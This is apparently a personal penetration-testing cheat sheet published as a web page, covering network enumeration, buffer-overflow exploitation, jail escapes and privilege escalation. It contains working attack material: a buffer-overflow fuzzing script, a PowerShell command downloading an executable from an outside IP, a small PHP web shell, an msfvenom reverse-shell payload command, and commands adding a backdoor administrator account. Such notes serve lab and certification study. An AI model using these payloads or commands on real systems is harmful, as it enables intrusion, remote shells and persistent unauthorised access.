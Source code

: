 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:  
	- arp-scan --localnet  
    - ping sweep - using nmap -sn > insert subnet here  
    - passive listening using Wireshark/tcpdump  

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information must be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow:  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell***  
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  
****PHP***  
Small Web shell:  

php system ($_GET[“cmd”]);



__BufferOverflow:__  

Some services will accept user input, but are not configured correct, in that they do not filter or allocate the correct input exactly so that sending more input than what the program is expecting will overwrite the programs execution flow and it will crash. If this is the case, sometimes a script can be created that controls this overflow behavior and instead of crashing the program, instructs it to do whatever the attacker wants (usually establishing a reverse shell or executing other malicious programs).  Below is a very short list of steps to BoF:  

__BoF Phase1:__  
1. Use a "fuzzing" script to detemrmine if the program is susceptible to crashing at a determined input amount. Use a debugger to ensure that the EIP register is overwritten with "A's".  
2. Create a unique pattern (MetaSploit's pattern_create can be used) based on the amount of data that previously crashed. Send the pattern to the program via modified script and copy the pattern that appears in the EIP.  
3. Use MetaSploit's pattern_offset tool to determine where in the unique value the EIP previously obtained, is included (what bit value, or point in the whole pattern was this bit that fit into the EIP is at).  
4. Modify script to include the crashing byte amount and the offset (set a different value for this, only 4 "B's" or \x42). Include trailing "C's" or \x43 for padding. This will be a placeholder for shellcode.  

__BoF Phase2:__  
5. Find bad characters that the program will not accept. If using Immunity debugger, the Mona module is good for this.  
6. Use this information to perform wider search for memory locations to pivot to with "JMP ESP" instruction set. This can be done via Mona using "!mona jmp -r esp -cpb "badCharacters". Focus on modules with no DEP or ASLR protections.  
7. Remember that the value found here must be placed into script used in Little-Endian format (backwards), or using a module that does this conversion for you.  

__BoF Phase3:__  
8. Shellcode generation. Sample shellcode using MSFVenom is as follows:  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b “\x00\x0a” EXITFUNC=THREAD -f python  
Do not forget to include the bad characters you have found via the -b option.  
9. When testing the final script NOPs (\x90) may need to be added for additional padding.  
10. Test offline and not against target before the actual attack target.  

__Exploitation:__  
After gathering substantial amount of information about targets, and finding no other footholds a search for public exploitation is in order. This can be done via simple Google search or sites like [Exploit-DB](https://www.exploit-db.com/). The exploits found need to be looked at carefully. Versioning is very important. Bitness is very important for compiling and of course, looking over the code to ensure no addtional side exploitation of the attacking matchine is hidden is important too.  

__Compiling:__  
The following is a few commands used for compiling C:

gcc inputFile.c -l outputFile - Generic Linux compile.
i686-w64-ming32-gcc inputFile.c -lws2_32 -o outputFile.exe - Linux compile for Windows executable.  

__Restrictions:__  
Sometimes low-privilege accounts are "jailed" so they are essentially locked into their home folder, or other program folders with only certain commands that are allowed. These jails can sometimes be broken out of via the following techniques:  
- SSH: If accessing via SSH try appending the -t "command" parameter such as vi. Sometimes this can be executed as the login process takes place and reverting to the shell via the following methods:  
- :set shell=/bin/bash followed by :shell 
- :!/bin/sh  

Another method (and sometimes one still needed regardless) is setting the PATH environmental variable to include a non-restricted command path like /usr/bin. This can be accomplished via the following:  
- export PATH=/bin:/usr/bin:$PATH  

__PrivEsc:__  
Inroads. Here are some quick and common enumeration steps once low privilege is obtained:

Linux:  
find / -perm -u=s -type f 2>/dev/null  - SUID search  
ls -al /etc/passwd - Can you write to the passwd file?  
ls -al /etc/*cron* - Check out all the crons
sudo -l - Can this user do anything as root?  
ps aux | grep root - What is running as root (or insert other user)?  


Windows:  
whoami /priv  
cmdkey /list  
accesschk.exe -accepteula -qwsu "Everyone" *  - Checks for writable files and folders  
accesschk.exe -uwcqv "Everyone" * - Checks for weak service permissions  
wmic service list brief - Service list  
net start  
sc query  
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """ - Searches for unquoted service paths  
Net user newuser newpass /add - Adds user  
Net localgroup Administrators newuser /add - Adds user to group



